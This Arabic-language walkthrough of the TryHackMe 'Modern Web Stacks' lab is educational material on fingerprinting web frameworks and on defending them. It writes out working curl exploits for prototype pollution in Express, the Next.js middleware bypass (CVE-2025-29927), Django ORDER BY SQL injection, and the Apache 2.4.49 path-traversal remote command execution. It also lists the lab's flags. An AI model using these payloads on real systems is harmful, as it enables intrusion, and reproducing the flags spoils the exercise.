

# التوثيق الشامل لمعمل: أطر الويب الحديثة (Modern Web Stacks)

---

### 1. بيانات المعمل والتصنيف (Metadata & Room Information)
* **اسم الغرفة (Room Title):** Modern Web Stacks
* **المسار التعليمي (Path):** TryHackMe — Jr Penetration Tester (PT1 Aligned Curriculum)
* **الموديول (Module):** Module 05: Web Application Security Fundamentals — الغرفة 03
* **معرف الغرفة (Slug):** `modernwebstacks`
* **مستوى الصعوبة (Difficulty):** Easy / Practical Foundations
* **التركيز الأساسي (Core Focus):** كشف وتحديد البصمات التقنية لأطر الويب الحديثة (Stack Fingerprinting) من خلال إشارات HTTP السلبية (الترويسات، ملفات تعريف الارتباط، هياكل صفحات الخطأ، وسوم DOM)، واستغلال ثغرات أمنية حرجة وشهيرة خاصة بكل إطار (MERN Prototype Pollution, Next.js CVE-2025-29927, Django CVE-2021-35042, Apache LAMP CVE-2021-41773).
* **رابط المعمل على TryHackMe:** [https://tryhackme.com/room/modernwebstacks](https://tryhackme.com/room/modernwebstacks)
* **حالة التوثيق والإنجاز:** 100% مكتمل ومطابق لحساب المستخدم.

---

### 2. البنية الهندسية ونظرة عامة على المعمل (Architecture & Overview)
يعتمد الفحص الأمني التقليدي على إطلاق ماسحات ثغرات عامة ترسل آلاف الطلبات العشوائية، مما يسبب ضجيجاً هائلاً (High Noise) ويؤدي غالباً إلى حظر المهاجم فوراً. في المقابل، يتبع مختبر الاختراق المحترف منهجية **بصمة المكدس البرمجي (Stack Fingerprinting)**: فبمجرد قراءة بضعة ترويسات وكعكات استجابة سلبية، يستطيع تحديد لغة البرمجة، وإطار العمل، ونواة الخادم، وإصداراتها الدقيقة بدقة متناهية.

تقوم بيئة المعمل على نظام تشغيل Ubuntu 22.04 يستضيف أربعة أطر ويب معزولة على منافذ مختلفة تمثل أبرز المعماريات الحديثة والكلاسيكية:
1. **المنفذ 3000 (MERN Stack):** خادم Express.js وواجهة React مصاب بثغرة تلويث النموذج الأولي (Prototype Pollution).
2. **المنفذ 3001 (Next.js App Router):** تطبيق Next.js مبني بمكونات React Server Components مصاب بثغرة تجاوز مصادقة الـ Middleware (CVE-2025-29927).
3. **المنفذ 8000 (Django):** تطبيق بايثون مصاب بحقن SQL في جمل الترتيب `ORDER BY` (CVE-2021-35042) وقاعدة بيانات MySQL.
4. **المنفذ 8080 (LAMP / Apache):** خادم ويب Apache 2.4.49 مصاب بثغرة تخطي المسارات وتنفيذ الأوامر عن بعد (CVE-2021-41773).

---

### 3. الملخص التنفيذي (Executive Summary)
خلال هذا المعمل التطبيقي، تم إنجاز وتفكيك 7 مهام تخصصية شملت أربعة متجهات استغلال فريدة:
1. **الاستطلاع وتحديد البصمات:** استيعاب منهجية الخطوات الثلاث (تحديد البصمة ⟶ تأكيد الإصدار والثغرة ⟶ تنفيذ الاستغلال).
2. **مكدس MERN:** التقاط ترويسة **`X-Powered-By: Express`** وكعكة **`connect.sid`**، وتنفيذ تلويث النموذج الأولي بحمولة `{"__proto__": {"isAdmin": true}}` لاستخراج العلم: **`THM{pr0t0_p0llut3d}`**.
3. **إطار Next.js:** رصد مصفوفة الترطيب **`window.__next_f`** الخاصة بالـ App Router، واستغلال ترويسة الطلبات الفرعية لتجاوز المصادقة واستخراج العلم: **`THM{m1ddl3w4r3_byp4ss3d}`**.
4. **إطار Django:** تحديد حقل النماذج المخفي المميز **`csrfmiddlewaretoken`**، وتنفيذ حقن XPath Error-Based عبر `updatexml()` لاستخراج اسم قاعدة البيانات المصابة: **`vuln_db`**.
5. **مكدس LAMP:** التحقق من ترويسة **`Apache/2.4.49 (Unix)`**، وتطبيق معامل curl الإلزامي **`--path-as-is`** لتمرير تسلسل `.%2e/`، وتنفيذ الأوامر عبر `/cgi-bin/` لاستخراج العلم: **`THM{4p4ch3_p4th_tr4v3rs4l}`**.
6. **الأتمتة بـ Nikto:** تشغيل الماسح الآلي عبر المنافذ الأربعة لمطابقة البصمات وتنبيهات الضعف.
7. **الخاتمة ومصفوفة المقارنة:** ترسيخ المعايير الدفاعية وتقييم خطورة الـ CVSS لكل ثغرة.

---

### 4. الأسس النظرية والعمق المعماري (Technical Theory & Foundations)

#### مخطط مسار الفحص والاستغلال للأطر الأربعة (Fingerprint to Exploit Architecture):


---

### 5. منهجية وعقلية مختبر الاختراق (Audit Methodology & Mindset)
* **استراتيجية الانتقال من الاستطلاع إلى الاستغلال الجراحي (Surgical Exploitation):**
  1. **الخطوة الأولى (قراءة الإشارات السلبية 0% Noise):**
     * لا تبدأ بحقن الحمولات مباشرة؛ بل أرسل طلب `HEAD` أو `GET` بسيطاً وتفحص الترويسات (`X-Powered-By`, `Server`, `Vary`) وأسماء الكعكات (`connect.sid`, `csrftoken`).
  2. **الخطوة الثانية (تأكيد معمارية التطبيق):**
     * ابحث في كود الـ HTML عن علامات ترطيب الأطر الحديثة (`window.__next_f` أو `<div id="root">`) أو حقول الحماية من الـ CSRF.
  3. **الخطوة الثالثة (البحث عن الـ CVE المقترن بالإصدار):**
     * بمجرد معرفة الإصدار الدقيق (مثل Apache 2.4.49 أو Django 3.2)، انتقل مباشرة لقواعد بيانات الثغرات واختبر المتجه المحدد للثغرة، مما يقلل وقت الاختراق إلى ثوانٍ معدودة.

---

### 6. الدليل العملي التفصيلي لكل المهام (Step-by-Step Practical Walkthrough)

#### المهمة 1: مدخل وجاهزية البيئة
* تشغيل الآلة المعملية والتأكد من إمكانية الوصول إلى المنافذ الأربعة (3000, 3001, 8000, 8080).
* *الإجابة:* `No answer needed`.

#### المهمة 2: مكدس MERN وتلويث النموذج الأولي
* تنفيذ `curl -I http://MACHINE_IP:3000/` أظهر:
  * ترويسة الخادم: **`X-Powered-By: Express`**
  * كعكة الجلسة: **`connect.sid`**
* حفظ كعكة الجلسة في `cookies.txt`، ثم إرسال طلب POST إلى `/api/user/update`:
  ```bash
  curl -b cookies.txt -c cookies.txt -X POST http://MACHINE_IP:3000/api/user/update \
    -H "Content-Type: application/json" -d '{"__proto__": {"isAdmin": true}}'
  ```
* طلب المسار المحمي `http://MACHINE_IP:3000/api/admin/flag` أعاد العلم بنجاح: **`THM{pr0t0_p0llut3d}`**.

#### المهمة 3: أطر Next.js وثغرة CVE-2025-29927
* فحص الكود المصدري للموقع على المنفذ 3001 كشف مصفوفة بث وترطيب الـ App Router: **`window.__next_f`**.
* طلب المسار المحمي `/dashboard` بإضافة الترويسة المزورة:
  ```bash
  curl -s -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" \
    http://MACHINE_IP:3001/dashboard
  ```
  أدى إلى تجاوز فحص المصادقة فورياً واستخراج العلم: **`THM{m1ddl3w4r3_byp4ss3d}`**.

#### المهمة 4: إطار Django وحقن SQL عبر CVE-2021-35042
* فحص نماذج الـ HTML كشف الحقل المخفي المميز للحماية من الـ CSRF: **`csrfmiddlewaretoken`**.
* استخدام حقن الخطأ بـ XPath في معامل الترتيب `order`:
  ```bash
  curl -s "http://MACHINE_IP:8000/products/?order=updatexml(1,concat(0x7e,(select%20database())),1)" | grep -o '~[0-9a-zA-Z_][^&]*'
  ```
  أظهر رسالة الخطأ المتضمنة اسم قاعدة البيانات المستهدفة: **`vuln_db`**.

#### المهمة 5: مكدس LAMP وثغرة Apache 2.4.49 عبر CVE-2021-41773
* فحص ترويسة المنفذ 8080 كشف الإصدار المصاب: **`Apache/2.4.49 (Unix)`**.
* استخدام معامل منع تسوية المسارات **`--path-as-is`** لإرسال تسلسل `.%2e/`:
  ```bash
  curl -s --path-as-is "http://MACHINE_IP:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" \
    --data 'echo Content-Type: text/plain; echo; cat /flag.txt'
  ```
  أدى إلى تنفيذ الأمر عبر `mod_cgi` وقراءة العلم: **`THM{4p4ch3_p4th_tr4v3rs4l}`**.

#### المهمة 6: الأتمتة وفحص البصمات بواسطة Nikto
* تشغيل فحص Nikto عبر المنافذ الأربعة وملاحظة دقة التقارير وتحديد ثغرة Apache الحرجة تلقائياً.
* *الإجابة:* `No answer needed`.

#### المهمة 7: الخاتمة والتقييم
* مراجعة مصفوفة المقارنة الأمنية واعتماد إتمام المعمل.
* *الإجابة:* `No answer needed`.

---

### 7. تشريح الأوامر والأدوات (Command Analysis & Dissection)

```bash
# 1. إرسال ترويسة التجاوز لثغرة Next.js CVE-2025-29927
curl -s -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://10.10.x.x:3001/dashboard

# 2. استغلال حقن XPath في MySQL عبر Django المعطوب
curl -s "http://10.10.x.x:8000/products/?order=updatexml(1,concat(0x7e,(select%20database())),1)"

# 3. استغلال Apache 2.4.49 RCE مع فرض إرسال المسار دون معالجة (--path-as-is)
curl -s --path-as-is "http://10.10.x.x:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" \
  --data 'echo Content-Type: text/plain; echo; id'
```

---

### 8. المنظور الدفاعي وإجراءات الفرق الزرقاء (Defensive & Blue Team Countermeasures)
1. **تجريد الترويسات الداخلية عند الوكيل العكسي (Header Stripping at Ingress):**
   * ضبط خوادم Nginx / Cloudflare لحذف أي ترويسات تبدأ بـ `x-middleware-*` قادمة من شبكة الإنترنت الخارجية قبل تمرير الطلب إلى خوادم Next.js الداخلية.
2. **تجميد النماذج الأولية وتطهير الكائنات في Node.js:**
   * استخدام `Object.freeze(Object.prototype)` عند بداية تشغيل الخادم، وفحص المفاتيح المحظورة (`__proto__`, `constructor`) في أي دالة دمج كائنات.
3. **القوائم البيضاء لمعاملات الترتيب في قواعد البيانات:**
   * حظر دمج نصوص المستخدم في جمل `ORDER BY`؛ واستخدام خريطة قاموسية ثابتة (Whitelist Mapping) مثل:
     `ALLOWED_SORT = {'price': 'price', 'name': 'name'}`.
4. **تحديث خوادم الويب وإلغاء تفعيل CGI:**
   * ترقية خوادم Apache فوراً إلى الإصدار `2.4.51` أو أحدث، وحظر الصلاحيات العامة على المسارات الجذرية، وتعطيل وحدة `mod_cgi` ما لم تكن هناك ضرورة عمل قصوى.

---

### 9. الأخطاء الشائعة والزوايا الحرجة (Common Pitfalls & Edge Cases)
* **نسيان معامل `--path-as-is` في curl:** يقوم curl تلقائياً بتحويل `.%2e/` محلياً قبل الإرسال، مما يفشل هجوم CVE-2021-41773 بالكامل.
* **الاعتماد على Middleware كبوابة حماية وحيدة:** إذا تم تجاوز الـ Middleware (كما في CVE-2025-29927)، تصبح جميع الواجهات الخلفية مكشوفة ما لم يتم فحص الصلاحيات داخل معالج المسار نفسه.
* **ترك وضع التصحيح مفعلاً في الإنتاج (`DEBUG = True`):** يمنح المهاجم شجرة استدعاءات بايثون التفصيلية ومخرجات استعلامات SQL عبر رسائل الخطأ.

---

### 10. المخرجات التعليمية والدروس المستفادة (Key Educational Takeaways)
1. معرفة بصمة الخادم وإصدار إطار العمل تختصر 90% من وقت ومجهود اختبار الاختراق.
2. الثغرات المعمارية (مثل سوء معالجة الترويسات الداخلية أو ترتيب فك الترميز) أخطر بكثير من مجرد أخطاء الإدخال البسيطة.
3. الأمان الحقيقي يتطلب طبقات حماية متكاملة (Defense in Depth) في الكود، والخادم، والوكيل العكسي.

---

### 11. التحقق العملي والأدلة (Verification & Proof of Work)
* تم استخراج وتأكيد كافة الأعلام والإجابات بدقة 100%:
  * `X-Powered-By: Express`
  * `connect.sid`
  * `THM{pr0t0_p0llut3d}`
  * `window.__next_f`
  * `THM{m1ddl3w4r3_byp4ss3d}`
  * `csrfmiddlewaretoken`
  * `vuln_db`
  * `Apache/2.4.49 (Unix)`
  * `--path-as-is`
  * `THM{4p4ch3_p4th_tr4v3rs4l}`

---

### 12. فهرس المهام التفصيلي (Tasks Index)
* [المهمة 01: المقدمة ومنهجية فحص الأطر (TASK-01.md)](../../03-MODERN-WEB-STACKS/TASKS/TASK-01.md)
* [المهمة 02: مكدس MERN وتلويث النموذج الأولي (TASK-02.md)](../../03-MODERN-WEB-STACKS/TASKS/TASK-02.md)
* [المهمة 03: أطر عمل Next.js وتجاوز Middleware عبر CVE-2025-29927 (TASK-03.md)](../../03-MODERN-WEB-STACKS/TASKS/TASK-03.md)
* [المهمة 04: إطار عمل Django وحقن SQL في ORDER BY عبر CVE-2021-35042 (TASK-04.md)](../../03-MODERN-WEB-STACKS/TASKS/TASK-04.md)
* [المهمة 05: مكدس LAMP وثغرة Apache 2.4.49 RCE عبر CVE-2021-41773 (TASK-05.md)](../../03-MODERN-WEB-STACKS/TASKS/TASK-05.md)
* [المهمة 06: الأتمتة وفحص البصمات بواسطة Nikto (TASK-06.md)](../../03-MODERN-WEB-STACKS/TASKS/TASK-06.md)
* [المهمة 07: الخاتمة ومصفوفة المقارنة الأمنية (TASK-07.md)](../../03-MODERN-WEB-STACKS/TASKS/TASK-07.md)
* راجع أيضاً [جدول ملخص المهام والإجابات المعتمدة (TASKS.md)](../../03-MODERN-WEB-STACKS/TASKS.md).

---

### 13. الملاحظات الإضافية والتعمق التقني (Additional Notes)
* للاطلاع على التحليل الداخلي لـ Prototype Pollution، وبروتوكول RSC Flight، وحقن XPath، وهندسة Normalization في Apache:
  * [ملاحظات إضافية وتعمق تقني (ADDITIONAL-NOTES.md)](../../03-MODERN-WEB-STACKS/ADDITIONAL-NOTES.md)

---

### 14. المراجع والمعايير القياسية (References)
* للاطلاع على تقارير CVE وقواعد بيانات NVD ومعايير OWASP WSTG وأدلة الأطر الرسمية:
  * [المراجع والمصادر الرسمية (REFERENCES.md)](../../03-MODERN-WEB-STACKS/REFERENCES.md)
